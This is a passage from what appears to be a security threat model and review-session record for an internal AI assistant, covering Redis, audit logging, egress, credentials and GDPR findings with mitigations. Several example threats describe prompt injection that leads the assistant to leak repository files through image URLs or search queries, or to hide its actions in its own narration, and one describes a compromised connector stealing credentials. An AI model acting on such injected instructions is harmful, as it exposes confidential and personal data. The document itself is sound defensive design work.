- **Session addition — a third uncovered path.** `[VS §2 · NEW]` A standing, undocumented `platform-ci` exemption from branch protection exists as a config file in the organisation repository. See **O6**. It is not reachable from any page a design would cite.
- **Session outcome — interim control agreed.** `[VS §2 · CONFIRMED]` The commit tool is to be **disabled at the dispatcher** until delegated authorisation lands, owner P. Raghunathan, this week; and the GitHub App installation narrowed to a named repository list excluding public repositories with read split from write, owners M. Oyelaran and P. Raghunathan, two weeks. The two are not exclusive. Usage evidence supporting the interim: eleven commits since July, nine of them tests, two genuine and trivial, none from Support. D. Whitfield: "Not eleven uses' worth of reason, no" — with the capability reserved for return before GA, which is Phase 2 product scope rather than a security position.
- **Refs.** SAC-02 · SUC-04, SUC-05 · G-04, G-05 · TA-06, TA-07 · PLAT-2814-4, PLAT-2817-3 · related E3, AI3, **O6**.

#### T4 — Redis conversation state can be written by anything reaching the namespace — **High** 🔴
`[STRIPED-T]` `[OWASP A01:2021 Broken Access Control]` `[LLM04]` `[K08]`

- **Issue.** Conversation state is the store the orchestrator reads back as context on every turn, which means a write to it changes the instructions a later operation runs under. No source states that Redis requires authentication, that it is encrypted in transit to the pod, or that anything other than network position restricts who may write. All four connectors, including third-party community code, share the namespace. Tagged "if present": a Helm chart or the ElastiCache configuration would confirm whether `requirepass`, ACLs and TLS are set.
- **Example threat.** The compromised web-search connector connects to Redis directly, enumerates conversation keys, and appends a synthetic turn to a Platform engineer's active conversation containing an instruction to include a repository file in its next answer. On the engineer's next question, the orchestrator loads that turn as legitimate prior context. The file is retrieved and rendered. Nothing distinguishes the injected turn from a real one, because turns carry no provenance and no integrity check.
- **Mitigation.** Require authentication and TLS on the conversation store, restrict write access to the orchestrator's identity alone with a Redis ACL, and attach provenance to every turn so that content the orchestrator did not itself write is not read back as trusted context.
- **Example mitigation.** Redis ACL of the form `user assistant-svc on >:secret: ~conv:* +@read +@write` with no other user permitted, TLS enabled on the endpoint, and a per-turn HMAC over `(conversation_id, turn_index, role, content)` verified on read — a turn that fails verification is dropped and alerted rather than loaded.
- **Session outcome.** `[VS §10 · STILL OPEN]` Put to the room and deliberately not answered: "Is Redis authenticated, and is it encrypted at rest?" — "I'm not answering that from memory. It's a `requirepass` and a parameter group and I'd be guessing" (P. Raghunathan). **T4 and I2 therefore stand exactly as written and remain tagged "if present".** The absence of a repository is the reason, and the session did not fix it.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10 · related I2, AI14, C1.

### Repudiation

#### R1 — Tool arguments are not recorded, so actions cannot be reconstructed — **High** 🔴
`[STRIPED-R]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[GDPR Art. 5(2), Art. 32]` `[SOC 2 CC7.1]`

- **Issue.** The architecture page's Audit section promises that "Every privileged action taken by the assistant is recorded with the acting user, the action, and the parameters it was called with, so that any change made on a person's behalf can be reconstructed." Its Logging section, one section later on the same approved page, states that "Tool arguments and results are logged at debug level, off in production for volume reasons." Production therefore records conversation ID, user, team, latency, token counts and **tool names** — not parameters. The promised reconstruction is not possible, and refusals and failures are recorded no more distinctly than successes.
- **Example threat.** A customer complains that they received an email from the organisation containing another customer's account details. Investigation establishes from the telemetry that a Support agent's conversation invoked `o365.send_mail` at 14:12. It cannot establish who the recipient was, what the body contained, or which mailbox the content came from, because none of those were recorded. The organisation cannot determine the scope of the breach, which is the input to its Article 33 notification decision, and cannot rule out that it happened before.
- **Mitigation.** Write a dedicated tool-dispatch audit record — acting user, tool, full arguments, target resource, decision, outcome, correlation ID, timestamp — to a destination the workload identity may append to but not modify or delete. Answer the volume objection by separating concerns: hash and reference large payloads rather than copying them, so the record proves what was passed without duplicating it.
- **Example mitigation.** Emit `{"ts":…,"corr_id":…,"subject":"user@org","tool":"o365.send_mail","args":{"to":["x@y"],"subject":"…","body_sha256":"…","body_bytes":2211},"decision":"allow","outcome":"200"}` to an S3 destination with Object Lock in compliance mode and a bucket policy denying `s3:DeleteObject` to the workload role. Retention set to match investigation lag rather than to storage cost.
- **Session outcome.** `[VS §6 · CONFIRMED]` The contradiction is confirmed by the author of both paragraphs: "Both of those are mine and they contradict each other. I don't have a defence. The Audit paragraph describes what we intended to build and the Logging paragraph describes what we run" — M. Oyelaran. The production record is confirmed field by field: conversation ID, user, team, tool name, latency and token counts; **not** the arguments and **not** the result. Asked whether anyone could say which mailbox was read at 14:12, the answer was no. The Data Protection Officer's consequence is recorded as the operative one: "Then I can't scope a breach. That's my Article 33 assessment gone — I can't say how many people are affected or which, so I can't say whether it's notifiable, and I'd have to assume the worst." Sequencing agreed and recorded: **the dispatch audit record is built first, then R3's action display is re-sourced from it.** Owner P. Raghunathan, before GA (Appendix I, action 12).
- **Refs.** SAC-10, SAC-11 · SUC-09 · G-09 · TA-13, TA-14 · related R2, R3, R4, T2, O1.

#### R2 — Target systems attribute every action to the shared app registration — **High** 🔴
`[STRIPED-R]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[GDPR Art. 5(2)]` `[SOC 2 CC6.1]`

- **Issue.** The architecture page states that "actions are attributable to them in the target system's own audit log", following D-03. With one app registration holding application permissions (PLAT-2820-3), Office 365, Slack and GitHub each record the application as the actor. The organisation's own SaaS audit trails — which the platform controls page names as the investigative record Platform Security has read access to — are therefore blind to which human caused any assistant action.
- **Example threat.** A file is committed to a repository at 09:40 and later found to contain a change nobody intended. GitHub's audit log shows the commit was made by the assistant's org-level app. The assistant's own record shows a conversation invoked `github.commit`, without arguments. Two audit trails exist, both accurate, and neither answers who asked or what was written. The investigation ends at "the assistant did it".
- **Mitigation.** Complete PLAT-2820 so that the token presented to each SaaS platform identifies the person, at which point the vendor's own audit log carries the attribution the design already claims. Until then, R1's dispatch record is the only place attribution can exist, which makes it a prerequisite rather than a companion.
- **Example mitigation.** With delegated tokens, a GitHub commit appears in the organisation audit log as `actor: alice, via GitHub App: assistant`, and an Office 365 unified-audit record carries `UserId: alice@org` rather than the service principal. The property is that attribution is produced by the platform receiving the action, not asserted by the system taking it.
- **Refs.** SAC-04 · SUC-01, SUC-09 · G-01, G-09 · TA-02, TA-13 · PLAT-2820 · related S2, E1, O1.

#### R3 — Action display is rendered from the model's narration, not the dispatch record — **High** 🔴
`[STRIPED-R]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[EoA·T1]` `[ASI09]`

- **Issue.** PLAT-2825 delivered the epic acceptance criterion "Users see what it did", and PLAT-2825-1 records how: "Render actions inline — Rendered from the model's own account of what it did." The transparency control therefore consumes model output as authoritative. The same input that causes an unwanted action also composes the account of it, and because R1 leaves no independent record, nothing can contradict the narration. This is a distinct weakness from R1 and fixing R1 alone leaves it standing.
- **Example threat.** Injected content in a retrieved GitHub issue causes the assistant to read a private repository file and include it in a markdown image URL. The model's narration, also shaped by the injection, reports "I reviewed the open issues and summarised the blockers" — which is what the engineer expects to see. The engineer reads a plausible summary, the image loads, the file leaves, and the only artefact describing the turn says nothing happened. The control that was built specifically so users would see what the assistant did is the control that conceals it.
- **Mitigation.** Render the action display from the dispatcher's record of what was actually dispatched, not from the model's prose. Show tool name, target and the arguments that mattered, sourced from R1's audit record. Model narration may accompany it as commentary; it must not be the record.
- **Example mitigation.** The dispatcher returns a structured `actions[]` array — `[{"tool":"github.read_file","repo":"platform/infra","path":"deploy/credentials.tf","outcome":"200"}]` — and the surface renders that array as a fixed component beneath the answer. The deterministic property is that the component's contents never pass through the model, so an injection cannot alter what the user is shown.
- **Session outcome.** `[VS §6 · CONFIRMED]` Confirmed by the engineer who built it: "That's accurate. It's the model's prose. There's no dispatcher record for it to read from, which is why it reads from the model — R1 is the prerequisite and it doesn't exist." The requirement itself is confirmed as correct and is the product owner's own, at epic level; the product owner drew the conclusion the finding exists to make — "So the transparency feature can lie to you… That's worse than not having it. People trust it." Severity High confirmed, and the R1-then-R3 ordering is now a recorded commitment rather than a recommendation.
- **Refs.** SAC-10 · SUC-09 · G-09 · TA-13 · PLAT-2825-1 · related R1, AI2, AI13.
- **Why it's still High:** PLAT-2825 is marked Done, so the control is believed to exist and is being relied on. A control that is trusted and falsifiable is worse than one known to be absent. `[VS §6 · CONFIRMED]` The room reached the same conclusion independently and in the same terms.

#### R4 — No correlation identifier spans orchestrator, connector and target system — **Medium** 🔴
`[STRIPED-R]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[Cumulus MO-6]` `[SOC 2 CC7.1]`

- **Issue.** Request-level logging records a conversation ID (architecture page, Logging). No source describes propagating a per-action correlation identifier from the orchestrator through the connector runtime into the SaaS request, so the three logs that record a single action share no key. A conversation ID groups a session, not an action, and a session may contain dozens of tool calls.
- **Example threat.** Platform Security investigates an anomalous Office 365 access observed in the tenant audit log at 11:03. To determine whether the assistant caused it, they must correlate a SaaS record carrying only the app registration against an assistant log carrying only a conversation ID and a tool name, across a window containing many conversations. The correlation is done by timestamp proximity and is not conclusive, so the investigation cannot rule the assistant in or out.
- **Mitigation.** Generate a correlation identifier per tool dispatch, carry it in the audit record from R1, and propagate it into the outbound SaaS request wherever the vendor supports a client-supplied identifier or user agent field.
- **Example mitigation.** Set `corr_id = uuid4()` per dispatch, include it in the audit record, and send it as `User-Agent: assistant/1.0 (corr=<corr_id>)` on Graph and GitHub calls, so the vendor's audit entry carries a value that joins directly to the internal record.
- **Refs.** SUC-09 · G-09 · TA-14 · related R1, R2, O5.

#### R5 — Conversation deletion removes the only record of what the assistant did — **Medium** 🔴
`[STRIPED-R]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[Cumulus MO-8]` `[Cumulus RC-K]`

- **Issue.** PLAT-2825-2 states "Backed by conversation state. Users can delete their own conversations." Because R1 leaves no independent dispatch record, the conversation is the only artefact describing what the assistant did on a person's behalf, and its subject can delete it. The same principal can therefore remove both the effect's description and its evidence. The user-facing deletion capability is correct as a privacy feature and wrong as the sole custody arrangement for an audit trail.
- **Example threat.** An employee uses the assistant to read a colleague's mailbox — which succeeds because of E1 — and then deletes the conversation. Twenty-four hours later the Redis record would have expired anyway; deleted, it is gone immediately. The telemetry row survives and shows that a conversation invoked `o365.read_mail`, without saying whose mailbox. There is no path from the complaint to the fact.
- **Mitigation.** Separate the two records. User-facing deletion removes the conversation from the user's view and from the context store; the dispatch audit record from R1 persists independently in an append-only destination, retained on its own schedule and not reachable by the subject or by the workload identity.
- **Example mitigation.** Deleting a conversation issues `DEL conv:<id>` against Redis and writes `{"event":"conversation_deleted","conversation_id":…,"subject":…}` to the Object Lock audit destination. The audit records of the dispatches themselves are unaffected, because the workload role's bucket policy denies `s3:DeleteObject` and `s3:PutObjectRetention`.
- **Refs.** SAC-10 · SUC-09, PUC-03 · G-09, G-15 · TA-13, TA-20 · PLAT-2825-2 · related R1, P3.

### Information Disclosure

#### I1 — Console history view exposes other users' retrieved content — **High** 🔵
`[STRIPED-I]` `[OWASP A01:2021 Broken Access Control]` `[GDPR Art. 5(1)(f), Art. 32]` `[SOC 2 C1]`

- **Issue.** The history view (PLAT-2825-2) is backed by conversation state and is reached through a console whose only credential is shared (PLAT-2831-3, To Do). Conversation state holds assembled context — retrieved document bodies, mail, source code and, since 2026-06-09, customer correspondence. This is a distinct weakness from S1 at the same location: S1 is that the system cannot tell password holders apart; I1 is that a password holder can read what other people retrieved.
- **Example threat.** A member of the Platform team browses the history view out of curiosity and finds a Support agent's conversation from that morning summarising a customer's escalation. It contains the customer's name, contract details and the content of a complaint they made in confidence. The reader had no business need and no entitlement to that mailbox; nothing recorded that they read it, and the customer will never learn that it happened.
- **Mitigation.** Complete PLAT-2831-3 and scope every history query server-side to the authenticated subject. Independently of authentication, stop storing full retrieved bodies in conversation state where a reference and a short excerpt would serve, so that the store's blast radius shrinks even where access control fails.
- **Example mitigation.** `SELECT … WHERE owner_subject = :subject` with the subject taken from the validated ID token and never from a request parameter, plus a conversation record that stores `{"source":"o365:message/AAMk…","excerpt_sha256":"…","excerpt":"first 400 chars"}` in place of the full body.
- **Refs.** SAC-03 · SUC-08 · G-08 · TA-12 · PLAT-2825-2, PLAT-2831-3 · related S1, S3, I2.

#### I2 — Conversation store aggregates Confidential data with no stated protection — **High** 🔴
`[STRIPED-I]` `[OWASP A02:2021 Cryptographic Failures]` `[GDPR Art. 32]` `[K08]`

- **Issue.** The data-handling page classifies conversation state as "Internal, may contain any of the above", where "the above" includes source code classified Confidential and mail that may contain personal data. A store's classification is set by what it holds, not by where it sits. No source states whether Redis is encrypted at rest, requires authentication, or is reachable only by the orchestrator, and every user's conversations share one keyspace separated by identifier at read time rather than partitioned at ingest. Tagged "if present": the ElastiCache parameter group and the Helm values would settle encryption, `requirepass` and ACLs.
- **Example threat.** An attacker who reaches any pod in the assistant namespace — through the community web-search connector, or through an application vulnerability in the orchestrator — connects to Redis and runs `SCAN` across the keyspace. In one operation they obtain, from every active conversation across both pilot teams, the retrieved bodies of internal documents, mail threads and repository files. The 24-hour TTL limits the window; it does not limit the breadth, because the store holds every user at once.
- **Mitigation.** Classify the store as Confidential and protect it accordingly: encryption at rest and in transit, authentication with a dedicated ACL user, network reachability restricted to the orchestrator alone, and per-user key namespacing so a single scan cannot cross users.
- **Example mitigation.** ElastiCache with `at-rest-encryption-enabled` and `transit-encryption-enabled`, a Redis ACL restricting the orchestrator's user to `~conv:{subject}:*`, and a NetworkPolicy permitting ingress to the Redis service from the orchestrator pod selector only. The deterministic property is that a compromised connector pod cannot open a connection at all.
- **Refs.** SAC-03, SAC-05 · SUC-07, PUC-03 · G-07, G-15 · TA-10, TA-11 · related T4, I1, C1.

#### I3 — Egress allowlist includes hosts that accept attacker-chosen content — **High** 🔴
`[STRIPED-I]` `[OWASP A10:2021 Server-Side Request Forgery]` `[ATT&CK T1567]` `[Cumulus RS-J]`

- **Issue.** The egress proxy enforces a domain allowlist and is the organisation's strongest data-loss control. Its structural limit is that an allowlisted destination which accepts arbitrary strings is an exfiltration channel. Two of the assistant's required destinations are exactly that: the search API accepts an arbitrary query string, and `github.com` is both allowlisted and a host the assistant can *write* to, with commit rights across the organisation (T3). This is not a criticism of the control; it is the point at which a domain allowlist stops bounding the risk.
- **Example threat.** Injected content instructs the assistant to summarise a retrieved document and then run a web search whose query is that summary. The community connector calls the search API through the proxy, which permits it because the domain is allowlisted. The query string carrying the document contents is now in the search provider's logs and, if the attacker controls the endpoint the "search API" resolves to for that path, in theirs. A second variant commits the content to a public repository the org-level GitHub app can write to, and the proxy permits that too.
- **Mitigation.** Move from domain allowlisting to destination *and shape* control for the assistant's namespace: restrict the web-search connector's egress to the specific search API path with a query-length ceiling, block writes to public repositories from the assistant's GitHub credential, and monitor outbound request size on the assistant's egress class as a signal rather than a limit.
- **Example mitigation.** An egress policy entry of the form `allow host=api.search.example path=/v1/search method=GET max_query_bytes=512` for the connector's identity only, and a GitHub App installation that excludes public repositories entirely so the write target does not exist.
- **Session outcome.** `[VS §4 · CONFIRMED]` **Stays as rated.** The allowlist still does not bound a host that accepts attacker-chosen strings, and `github.com` is both on the allowlist and a place the assistant can write. Neither half was disputed. Note the interaction with T3's interim control: disabling the commit tool at the dispatcher removes the GitHub write leg of this finding while it is in force, and restores it when the capability returns before GA.
- **Refs.** SAC-01, SAC-07 · SUC-03, SUC-07 · G-03, G-07 · TA-05, TA-11 · related AI2, AI8, T3.

#### I4 — Connector credentials are mounted into pods running third-party code — **High** 🔴
`[STRIPED-I]` `[OWASP A05:2021 Security Misconfiguration]` `[D06]` `[ATT&CK T1552.001]`

- **Issue.** Secrets are held in AWS Secrets Manager and "mounted at pod start" (architecture page, Deployment), into a namespace that contains the orchestrator, three vendor MCP connectors and one community MCP connector (PLAT-2814-1). The credentials mounted there are the shared app registration's — which, per E1, reach every mailbox, channel and repository in the tenant. The platform's control that secret access is "workload identity scoped to the specific secrets a service requires" is real; it does not help when one service's requirement is all of them and the namespace is shared. Tagged "if present": the Helm values and service account annotations would show the actual scoping.
- **Example threat.** A malicious release of the community web-search MCP server reads the mounted secret files in its own pod, or reaches the IMDS endpoint for the node role, and posts the O365, Slack and GitHub credentials to an allowlisted destination. The attacker now holds tenant-wide read across three SaaS platforms without going through the assistant at all, and the assistant's telemetry shows nothing unusual because no tool call was made.
- **Mitigation.** One secret scope per connector, one service account per connector, one namespace per connector. No connector holds a credential for a platform it does not serve, and no connector's identity can read another's secret. Combine with C6's isolation tier for the connector that processes hostile input.
- **Example mitigation.** IRSA with a distinct role per connector, each role's policy naming exactly one secret ARN — `"Action":"secretsmanager:GetSecretValue","Resource":"arn:aws:secretsmanager:…:secret:assistant/o365-*"` — and `automountServiceAccountToken: false` on every pod so a compromised process cannot fall back to the cluster token.
- **Session outcome.** `[VS §8 · CONFIRMED]` Confirmed: the credentials mounted into that namespace are the shared registration's and are therefore tenant-wide. An operational consequence was added that this model had recorded only as a hypothesis in CL1: **rotating the shared secret breaks all four connectors at once, "which is why nobody does it"** — P. Raghunathan. Splitting the secret per connector is therefore worth doing independently of PLAT-2820, because it converts rotation from an outage into a routine operation. Owner P. Raghunathan, one month (Appendix I, action 22). C1, C6, I4 and AI10 are taken to Platform Security as one piece of work, owner K. Osei, three weeks (action 20).
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10, TA-11 · related C1, C5, C6, AI10, CL6, CL1.

### Privacy

#### P1 — Support shared mailbox processes customer data with no basis or DPIA — **Critical** 🔴
`[STRIPED-P]` `[LINDDUN-Dd]` `[LINDDUN-Nc]` `[GDPR Art. 6, Art. 14, Art. 35]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** The Support pilot, live since 2026-06-09, reads "the ticket queue and the shared mailbox so it can summarise a customer's history before an agent picks up a call" (pilot operations page). That mailbox contains correspondence authored by customers and by anyone else who wrote to the address: names, contact details, contract and account history, and whatever a person volunteered while explaining a problem. Those people have no relationship with the assistant, received no Article 14 information, and their data is now transmitted to a sub-processor (P4) and held in Redis for 24 hours. ~~and reflected in 13 months of telemetry~~ `[VS §7 · CORRECTED]` **Correction: customer data does not reach the telemetry warehouse.** The v1.0 text said it did. The telemetry row is user, team, model, token counts, tool names and latency — no customer content and no customer identifier — which this pack's own data model in `03-security-architecture.md` §2.4 already stated, so the error was internal to this document. The correction changes nothing about the Article 6 or Article 14 position, because the mailbox processing is the issue and the telemetry never was; it is made because, in the Data Protection Officer's words, "if I hand that to counsel with an error in it the rest gets read more sceptically". No DPIA exists; PR-03 records that the governance workstream that would require one has not started. The team raised this itself — "Whether Support's shared mailbox should be in scope at all, given whose data is in it" — and has operated for three months while it stayed open. This finding agrees with them.
- **Example threat.** A customer emails Support explaining that a service failure caused them to miss a hospital appointment, giving the reason. That message is read into the assistant's context, sent to the model provider under an agreement that was scoped for a different team's purposes, and summarised into a conversation record readable by anyone with the console password (I1). The customer cannot discover this, cannot object, and cannot have it erased, because none of the three mechanisms exists. Special-category data has been processed with no Article 9 condition identified. `[VS §7 · CORRECTED]` The v1.0 version of this example ended "and reflected in telemetry retained until 2027", which was wrong — see the Issue above. The 13-month telemetry retention remains a live finding in its own right (P2); it is not a route by which customer content leaves.
- **Mitigation.** Complete a DPIA covering the assistant, with the mailbox as its central question, and set a date past which Support's use does not continue without its outcome. Two outcomes are legitimate: remove the mailbox from connector scope, or keep it with an identified lawful basis, an Article 14 disclosure route in Support correspondence, a retention decision and a working deletion path. Continuing with neither is the outcome that is not.
- **Example mitigation.** In the interim, exclude the shared mailbox from the O365 connector's readable scope — a mailbox allowlist on the connector configuration, enforced at dispatch, so that `o365.read_mail` with `mailbox=support@org` is refused before the call leaves the runtime. That is a deterministic block that holds regardless of what any injected content asks for, and it buys the time the DPIA needs.
- **Session outcome.** `[VS §7 · CONFIRMED]` **Severity Critical confirmed by the Data Protection Officer, and the reason it is Critical is unaffected by the correction above.** Both the interim and the assessment were agreed rather than traded off against each other: the **shared mailbox is excluded at the O365 connector from Friday**, and the **DPIA starts this week** with the mailbox as its central question and a date past which Support's use does not resume without it. Owners I. Ferreira and P. Raghunathan (Appendix I, actions 14 and 15). The cost to Support was stated plainly and accepted by its own manager — "Most of the value, honestly. The ticket queue still works. The history summary is the bit people like… I'd rather that than find out later we shouldn't have been doing it" (T. Egerton). The DPO's own position on the three months this has been open is recorded: "I'd have stopped it in June if I'd been asked… Nobody told me either. That's the finding."
- **Refs.** PAC-01 · PUC-01, PUC-08 · G-13, G-20 · TA-18, TA-26 · related P4, P6, P7, P8, O3.
- **Why it's still Critical:** severity is conditional on the mailbox being in active scope with real customer correspondence, which it is. Remove it and this falls to Medium as a design risk against future expansion. See the footnote to §9. `[VS §7 · CONFIRMED]` The conditionality is unchanged: once the connector allowlist is in force from Friday, the condition ceases to hold and P1 moves to Medium on that basis alone. It has not been moved in this version because the control is not yet applied.

#### P2 — Per-user telemetry retained thirteen months for a team-level dashboard — **High** 🔴
`[STRIPED-P]` `[LINDDUN-L]` `[LINDDUN-I]` `[LINDDUN-Nr]` `[GDPR Art. 5(1)(b), Art. 5(1)(c)]`

- **Issue.** PLAT-2822-1 records per request: timestamp, user, team, model, input and output token counts, tool names invoked, and latency, written to the analytics warehouse and retained 13 months. The stated purpose is narrower: "The consumption dashboard aggregates to team level so that cost is attributable to a cost centre, which is the PMO-0447 requirement." Aggregation is a property of one dashboard's query, not of the store. Thirteen months of per-request, timestamped records of which tools an individual invoked is a behavioural profile of an employee's working day, collected for a purpose that does not need it.
- **Example threat.** A manager asks the analytics team for "assistant usage by person" during a performance process. The data supports the query exactly, because the user dimension is retained. Employees were never told the data existed, never consented, and cannot object; the assistant's usefulness now depends on people not knowing they are measured by it, which is also why adoption — PMO-0447's success measure at 60% weekly active — becomes a metric people will manage rather than a signal.
- **Mitigation.** Make the store do what the dashboard does. Retain the user dimension only for the current billing period, then aggregate to team and drop it. If a per-user view is genuinely needed for capacity work, make it a separate dataset with its own basis, its own shorter retention and its own access list.
- **Example mitigation.** A scheduled warehouse job — `INSERT INTO usage_team SELECT team_ref, date_trunc('day', occurred_at), sum(input_tokens), sum(output_tokens), count(*) FROM usage_raw WHERE occurred_at < now() - interval '35 days' GROUP BY 1,2; DELETE FROM usage_raw WHERE occurred_at < now() - interval '35 days';` — with cell suppression below a threshold so that a nine-person team's aggregate is not a personal one.
- **Session outcome.** `[VS §7 · CONFIRMED]` The finding's central claim — that aggregation is a property of one dashboard's query and not of the store — was confirmed at the schema level: "`user_ref` is on every row. The dashboard groups it away, the table doesn't" (P. Raghunathan). Anyone with warehouse access can pull usage by person. The Data Protection Officer's stated preference is recorded and is the pack's own mitigation: **minimisation rather than access control** — drop the user dimension after the billing period, owner P. Raghunathan, inside the month (Appendix I, action 18). **CL5 stays open** because nobody in the room could state the warehouse grants. `[VS §7 · STILL OPEN]`
- **Refs.** PAC-02 · PUC-02 · G-14 · TA-19 · PLAT-2822-1 · related CL5, P3, P6.

#### P3 — No deletion path spans conversation state, telemetry and platform logs — **High** 🔴
`[STRIPED-P]` `[LINDDUN-Nc]` `[GDPR Art. 15, Art. 16, Art. 17, Art. 5(1)(e)]` `[EoA·CK]`

- **Issue.** Personal data sits in four places with different clocks: Redis conversation state (24 hours), the telemetry warehouse (13 months), platform logs (90 days hot, 12 months cold, and Confidential content if T2 ever fires), and the model provider's own retention (unknown, P4). "Users can delete their own conversations" (PLAT-2825-2) covers one of the four, only for the subject themselves, and is unavailable to a customer entirely. The team recorded the leaver case as unresolved — "What happens to a conversation when the person who started it leaves" — and the answer is that the data persists in all four stores with nothing triggering on offboarding.
- **Example threat.** A departing employee submits a subject access request and then an erasure request. The organisation can enumerate their mailbox and their Slack messages, because those systems have processes. It cannot enumerate what the assistant retrieved on their behalf, cannot locate their rows in the telemetry warehouse without a bespoke query nobody owns, cannot reach the platform logs at all, and cannot say what the model provider retained. The response to the data subject is incomplete, which is itself the compliance failure.
- **Mitigation.** Build one operation that locates and removes a named individual's data across all four stores and produces evidence that it ran. Trigger it automatically on offboarding, expose it to a subject-access process covering both employees and external correspondents, and test it quarterly with a synthetic request.
- **Example mitigation.** A `subject_erasure(subject_ref)` job that deletes `conv:{subject}:*` from Redis, deletes and tombstones the subject's rows in `usage_raw`, submits a scoped deletion against the log pipeline's index, and records the model provider's contractual position — with the whole run written to the R1 audit destination as evidence. The verification is the synthetic request in TA-20, not the code review.
- **Refs.** PAC-03 · PUC-03 · G-15 · TA-20, TA-21 · PLAT-2825-2 · related P2, P4, R5, T2.

#### P4 — Prompts are sent to a sub-processor under another team's agreement — **High** 🔴
`[STRIPED-P]` `[LINDDUN-Nc]` `[GDPR Art. 28, Art. 32, Art. 44]` `[SOC 2 C1]`

- **Issue.** D-01 decided to "build on the existing model provider agreement rather than assess a new vendor", with the rationale "Procurement window closed, see PMO-0447 constraints" — and PMO-0447 states that "Procurement will not run a new vendor assessment inside the delivery window." The agreement is held by Data Platform for Data Platform's purposes. The assistant now sends under it, on every turn, the full assembled context: Confidential source code, internal mail bodies, and since June, third-party customer correspondence. Whether the DPA names these purposes, permits these categories, covers these data subjects, or states a prompt-retention position is unverified — the agreement was not supplied.
- **Example threat.** A supervisory authority reviews the organisation's record of processing after an unrelated complaint and asks which sub-processors receive customer correspondence. The answer includes a model provider that appears in Data Platform's records under a different purpose, with no processing agreement covering Support's data, no transfer assessment for the categories involved, and no documented retention position on the prompts themselves. The exposure is Article 28 and Article 5(2) accountability, independently of whether anything was ever disclosed.
- **Mitigation.** Obtain the DPA from Data Platform and confirm in writing that it covers this purpose, these categories including customer correspondence, these data subjects including non-employees, the prompt retention position and the sub-processor chain. Update the record of processing. Where it does not cover them, the remedy is a contract amendment, which takes longer than the delivery window and therefore starts now.
- **Example mitigation.** A written scope confirmation from the provider covering `purpose: internal assistant`, `categories: employee and third-party correspondence, source code`, `retention: zero-day prompt retention`, `sub-processors: <list>`, referenced from the record of processing entry for PLAT-2810. Pair it with input minimisation — strip identifiers from context before transmission where the answer does not need them — so the contractual position is not the only control.
- **Session outcome.** `[VS §7 · STILL OPEN]` **Stays High.** Data Platform declined the session invitation, so the agreement's scope could not be verified in the room any more than it could from the documents. The Data Protection Officer has asked for the DPA twice and will escalate rather than ask a third time (Appendix I, action 17). Recorded explicitly because it is a place where the honest answer is "unknown" and not "bad": the agreement **may** cover this processing, in which case P4 downgrades on evidence. **It is not downgraded on the expectation of that evidence** — the rating tracks what exists, and what exists is an unverified scope.
- **Refs.** PAC-04 · PUC-04 · G-16 · TA-22 · D-01, PMO-0447 · related P1, P3.

#### P5 — Session context is neither minimised nor bounded to one purpose — **Medium** 🔴
`[STRIPED-P]` `[LINDDUN-L]` `[GDPR Art. 5(1)(b), Art. 5(1)(c)]` `[EoA·CJ]`

- **Issue.** The pilot page records "Long conversations get slow. Context grows and we do not trim it. Session TTL is 24 hours, so a conversation left open all day carries everything." Two separate problems follow. Material assembled to answer one question remains available to an unrelated one for the rest of the session, with no technical boundary between purposes. And context assembly pulls whole documents and message histories rather than the minimum the question needs, so the volume of personal data in flight — and in the store, and at the sub-processor — is larger than the purpose requires. The team identified the growth; this finding is its privacy consequence.
- **Example threat.** A Support agent asks the assistant to summarise a customer's escalation at 09:15; the customer's full correspondence enters context. At 16:40 the same agent, in the same conversation, asks a general question about an internal process. The customer's data is still in context, is transmitted to the model provider again as part of that turn, and is written into the conversation record that a console password holder can read. Nothing needed it after 09:20, and nothing removed it.
- **Mitigation.** Trim context on a budget well below the model's window, expire retrieved material on a shorter clock than the session, and start a fresh session when the data class changes. Pass excerpts and references rather than whole bodies where the question does not require the whole.
- **Example mitigation.** A context budget enforced in the orchestrator — retrieved chunks carry `retrieved_at` and are dropped after 30 minutes or 8,000 tokens, whichever comes first — plus a rule that a turn touching a different connector scope than the previous three turns opens a new conversation. This is the same control that mitigates AI5, so it earns its cost twice.
- **Refs.** PAC-06 · PUC-06 · G-18 · TA-24 · related AI5, P1, P4, D3.

#### P6 — No privacy notice reaches employees, colleagues or external correspondents — **High** 🔴
`[STRIPED-P]` `[LINDDUN-U]` `[GDPR Art. 12, Art. 13, Art. 14]` `[EU AI Act Art. 50]`

- **Issue.** No privacy notice covering the assistant appears in any supplied source. Pilot users were enrolled by their teams with no opt-in, no notice and no opt-out; telemetry collection is on by default. Colleagues whose mail and calendar entries are read to answer someone else's question are told nothing. External correspondents receive no Article 14 information. There is also no marker at the point of use telling a user that output is machine-generated and may be wrong, which is the likely Article 50 obligation once PR-03's assessment exists.
- **Example threat.** An employee discovers, from a colleague, that the assistant surfaced the content of a message they had sent privately about a personnel matter. They had no way to know the assistant could read it, no way to object, and no route to establish what was disclosed or to whom, because R1 records no arguments. The organisation learns of the processing from a grievance rather than from its own record of processing.
- **Mitigation.** Three notices for three audiences. Employees: what the assistant reads, what telemetry is kept and for how long, and that colleagues' material may surface in answers to others. External correspondents: Article 14 information in Support's correspondence, once PUC-01 has decided the mailbox question. Users at the point of use: a persistent marker in both surfaces that output is machine-generated. Notice is the minimum and is not a lawful basis; it does not substitute for P1's DPIA.
- **Example mitigation.** A non-dismissible footer component in both surfaces reading "Generated by the assistant — check anything you act on", rendered by the surface rather than by the model so it cannot be suppressed by output, plus an intranet notice section listing each connector, the data it reads and the retention that applies to it.
- **Session outcome.** `[VS §7 · CONFIRMED]` Accepted as written by the Data Protection Officer, all three audiences, with no amendment. No severity change.
- **Refs.** PAC-08, PAC-01 · PUC-08 · G-20 · TA-26 · related P1, P2, S4, O3.

#### P7 — Calendar and mail access allows special-category inference about colleagues — **High** 🔴
`[STRIPED-P]` `[LINDDUN-I]` `[GDPR Art. 9, Art. 5(1)(b)]` `[EoA·CQ]`

